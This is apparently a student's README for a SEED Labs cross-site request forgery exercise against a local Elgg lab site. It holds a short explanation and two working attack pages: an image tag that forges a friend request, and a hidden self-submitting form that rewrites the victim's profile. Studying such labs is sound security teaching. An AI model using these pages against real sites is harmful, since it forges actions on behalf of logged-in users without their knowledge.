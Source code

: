 # Cross site Request Forgery 

## Summary

#### Condition 
* Victim is logged in to the vulnerable website. 
* Attacker does social engineering, and victim has opened the attacker's website in the same browser. 

#### What happens ? 
* The attacker's website sends a HTTP request to the vulnerable website.  
* The request,technically, has the same origin as that of the victim website.Victim's browser is tricked and attaches the cookie alongwith the request. 
* Attacker is able to send the request to the vulnerable website on victim's behalf. 

## Useful Links:
* Seedlab Tasks, http://www.cis.syr.edu/~wedu/seed/Labs_12.04/Web/Web_CSRF_Elgg/Web_CSRF_Elgg.pdf
* https://www.acunetix.com/websitesecurity/csrf-attacks/

## Seedlab Tasks:
Note : Students should create HTML pages and host them locally. Instructions about this is given in the PDF. 

#### Task 1 : CSRF attack using GET Request: Adding friends

```html
<html>
<body>
<h1> Hello World ! </h1>
<img src="http://www.csrflabelgg.com/action/friends/add?friend=42">
</body>
</html>
```

#### Task 2: CSRF attack using POST request:Changing Profile 
Note : This is a draft script. It has few issues. 

```html
<html>
<body>

<h1>Hello World test two ! </h1>


<script type="text/javascript">
   function post(url,fields)
   {
  //create a <form> element.
   var p = document.createElement("form");
   //construct the form
   p.action = url;
   p.innerHTML = fields;
   p.target = "_self";
   p.method = "post";
   //append the form to the current page.
   document.body.appendChild(p);
   //submit the form
   p.submit();
   }

function csrf_hack()
   {
   var fields;
   var victim_id=elgg.page_owner.guid;
   // The following are form entries that need to be filled out
   // by attackers. The entries are made hidden, so the victim
   // won’t be able to see them.
   fields += "<input type=’hidden’ name=’name’ value=’Samy’/>";
   fields += "<input type=’hidden’ name=’description’ value=’Samy is my Hero’ />";
   fields += "<input type=’hidden’ name=’accesslevel[description]’ value=’2’ />";
   fields += "<input type=’hidden’ name=’briefdescription’ value=’hello world /’>";
   fields += "<input type=’hidden’ name=’accesslevel[briefdescription]’ value=’2’/>";
   fields += "<input type=’hidden’ name=’location’ value=’’ />";
   fields += "<input type=’hidden’ name=’accesslevel[location]’ value=’2’ />";
   fields += "<input type=’hidden’ name=’guid’ value=’39’ />";
   var url = "http://www.csrflabelgg.com/action/profile/edit";
   post(url,fields);
  }

// invoke csrf_hack() after the page is loaded.
window.onload = function() { csrf_hack();}
</script>

</body>
</html>

```

